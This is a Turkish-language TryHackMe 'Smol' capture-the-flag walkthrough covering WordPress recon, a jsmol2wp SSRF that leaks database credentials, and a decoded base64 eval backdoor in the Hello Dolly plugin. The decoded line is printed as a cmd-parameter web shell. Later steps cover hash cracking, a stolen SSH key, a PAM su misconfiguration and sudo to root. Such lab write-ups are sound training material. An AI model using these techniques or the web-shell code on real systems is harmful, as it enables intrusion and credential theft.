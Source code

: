 ```yaml
---
title: 'TryHackMe | Smol WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [wordpress, lfi, pam]
render_with_liquid: false
media_subpath: /images/tryhackme_smol/
image:
  path: logo.webp
---
```


## Özet

### Makine hakkında ek bilgiler

- WordPress içerik yönetim sistemi kullanılıyor.
- Zafiyetli bir eklenti kullanılıyor.
- Eklentilerin içerisinde bir yerde arka kapı bulunuyor.
- GPU’su olmayan bilgisayarlarda john’un hashcat’ten daha hızlı olduğu yazıyor. Kısaca hash kırma işleminin uzun süreceğini söylüyor.

## Keşif aşaması

### Nmap taraması

```console
$ nmap -sSVC -T4 10.10.240.79
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://www.smol.thm
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80 numaralı portun incelenmesi

![](1.webp){: width="1200" height="600" }

Kullanılan zafiyetli eklentiyi tespit etmek için wpscan aracını kullanmaya karar verdim.

```console
$ wpscan --url http://www.smol.thm/ -e p
[i] Plugin(s) Identified:

[+] jsmol2wp
 | Location: http://www.smol.thm/wp-content/plugins/jsmol2wp/
 | Latest Version: 1.07 (up to date)
 | Last Updated: 2018-03-09T10:28:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.07 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
```

Tarama sonucunda `jsmol2wp` adında bir bir eklenti kullandığını öğreniyoruz. Eklentiyi internette arattığımızda [bu](https://github.com/sullo/advisory-archives/blob/master/wordpress-jsmol2wp-CVE-2018-20463-CVE-2018-20462.txt) github sayfası ile karşılaşıyoruz.

## Sömürü aşaması

Burada eklentinin `jsmol.php` sayfasında hem `XSS` hem de `SSRF` zafiyetinin barındığı yazıyor. Query parametresinin etkilendiği bu uzantıyı alıp hedef uygulamanın sonuna ekliyorum.

![](2.webp){: width="1200" height="600" }

Böylece config dosyasındaki veri tabanı bilgilerini almış olduk. Bu bilgileri kullanarak panele giriş yapabiliyorum.

![](3.webp){: width="1200" height="600" }

Panelde eklentiler ve temalar sayfası bulunmuyor. Sayfalar kategorisini seçtiğimde ise `Webmaster Tasks!!` adında bir yazı ile karşılaşıyorum.

![](4.webp){: width="1200" height="600" }

Eklentilerin birinde gizli bir arka kapı olduğu bilgisi verilmişti zaten. Burada o eklentinin “Hello Dolly” olduğu yazıyor. Biraz önce bulduğumuz SSRF zafiyeti ile eklentinin kaynak kodunu görüntüleyelim.

![](5.webp){: width="1200" height="600" }

Gördüğünüz üzere önce base64 ile kodlanmış veriyi çözüyor daha sonra ise eval fonksiyonu ile çalıştırıyor.

```console
$chepy "CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA="
>>> from_base64
 if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); } 
>>> unicode_to_str
 if (isset($_GET["cmd"])) { system($_GET["cmd"]); } 
>>>
```

Kodlanmış bu veriyi chepy aracı ile çözdükten sonra “cmd” parametresini kullanarak sistemde komut çalıştırabileceğimizi görüyoruz. Parametreyi kullanarak sistemden shell elde etmek için eklentinin bulunduğu sayfaya yöneldim ama komutu gönderdiğimde herhangi bir tepki vermedi. Haliyle komut çalıştırabilmek için bu eklentinin kullanıldığı bir alan bulmamız gerektiğini düşündüm. Ana sayfaya tekrar döndüğümde sağ kısımda şiirden bir parça gördüm ve ana sayfada kullanıldığını düşünerek parametreyi ekledim.

![](6.webp){: width="1200" height="600" }

Komut çalıştırabildiğimize göre sistemden bir shell alabiliriz.

![](7.webp){: width="1000" height="550" }

Bağlantı geldikten sonra kullanıcıları görmek için /home dizinine gittim. Hiçbir kullanıcı dizinini görüntüleme yetkimiz yok. Ayrıca tüm kullanıcılar “internal” grubuna dahil edilmiş. Bir şekilde bu gruba dahil olursak tüm kullanıcı dizinlerini gezebiliriz.

```console
www-data@smol:/var/www/wordpress/wp-admin$ ls -la /home
total 24
drwxr-xr-x  6 root  root     4096 Aug 16  2023 .
drwxr-xr-x 18 root  root     4096 Mar 29  2024 ..
drwxr-x---  2 diego internal 4096 Aug 18  2023 diego
drwxr-x---  2 gege  internal 4096 Aug 18  2023 gege
drwxr-x---  5 think internal 4096 Jan 12  2024 think
drwxr-x---  2 xavi  internal 4096 Aug 18  2023 xavi
```

## Yetki yükseltme

### diego

Öncelikle wp-config.php dosyasındaki bilgileri kullanarak veri tabanına giriş yaptım. wp_user tablosundaki hashleri ve kullanıcı adlarını alıp bir dosyaya yazdım. Daha sonra bu hashleri kırması için john aracını kullandım.

![](8.webp){: width="1200" height="600" }

Karşılaştırma işlemi devam ederken `diego` kullanıcısının parolasını buldu. Diego kullanıcısına geçiş yapıp kendi dizininden ilk bayrağı alıyorum.

### think

internal grubuna girdiğimize göre diğer kullanıcıların dizinlerini gezebiliriz. 

```console
diego@smol:/home/gege$ ls -la
...
-rwxr-x--- 1 root gege     32266546 Aug 16  2023 wordpress.old.zip
diego@smol:/home/think$ ls -la
...
drwxr-xr-x 2 think think    4096 Jun 21  2023 .ssh
...
```

gege kullanıcısının dizininde wordpress.old.zip dosyası bulunuyor ama yetkimiz dışında. think kullanıcısının dizininde ise .ssh dizini bulunuyor. Buradaki id_rsa dosyasını kullanarak think kullanıcısına geçiş yapıyorum.

```console
$ chmod 600 id_rsa
$ ssh think@10.10.240.79 -i id_rsa
```

### gege

Bu kullanıcıdanda muhtemelen gege kullanıcısına geçiş yapmamız gerekiyor. Sistemde uzun bir süre gezdikten sonra think kullanıcısının parola kullanmadan gege kullanıcısına geçiş yapabileceğini öğrendim.

```console
think@smol:/etc/pam.d$ cat su                                                                                                                                                                 
...                                                                                                                                                 
auth  [success=ignore default=1] pam_succeed_if.so user = gege                                                                                                                                
auth  sufficient                 pam_succeed_if.so use_uid user = think
...
```

/etc/pam.d dizini sistemdeki doğrulamalar için kullanılan yapılandırma dosyalarını barındıyor. Bunlardan biri olan su komutunun değiştirildiğini görüyoruz.

```console
think@smol:/etc/pam.d$ su gege
gege@smol:/etc/pam.d$ cd
gege@smol:~$ ls
wordpress.old.zip
```

### xavi

Kullanıcı değişiminden sonra zip dosyasını çıkarmak için /home/gege dizine gittim ama parola koruması olduğu için dosyayı çıkaramadım. Bu zip dosyasını kırmak için önce kendi sistemime indirdim. Daha sonra “zip2john wordpress.old.zip > hash” komutu ile kırılabilir bir formata çevirdim ve john aracını çalıştırdım

```console
$ cat hash 
wordpress.old.zip:$pkzip$8*1*1*0*0*24*a31c*c2fb90b39...
$ sudo john hash -w=Desktop/rockyou.txt
...
*** (wordpress.old.zip)
...
```

Zip dosyasını çıkartıp içerisindeki config dosyasını açtığımızda xavi kullanıcısının parolasını görüyoruz.

```php
/** Database username */
define( 'DB_USER', 'xavi' );

/** Database password */
define( 'DB_PASSWORD', '***' );
```

### root

xavi kullanıcısına geçiş yaptıktan sonra sudo haklarımızı görüntülediğimizde herhangi bir komutu herhangi bir kullanıcı olarak çalıştırabileceğimizi görüyoruz ve `sudo su` komutunu kullanarak en yetkili hesaba geçiş yapıyoruz.

```console
xavi@smol:~$ sudo -l
[sudo] password for xavi: 
Matching Defaults entries for xavi on smol:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User xavi may run the following commands on smol:
    (ALL : ALL) ALL
xavi@smol:~$ sudo su
root@smol:/home/xavi$ ls /root
...
-rw-r-----  1 root root   33 Aug 16  2023 root.txt
...
```
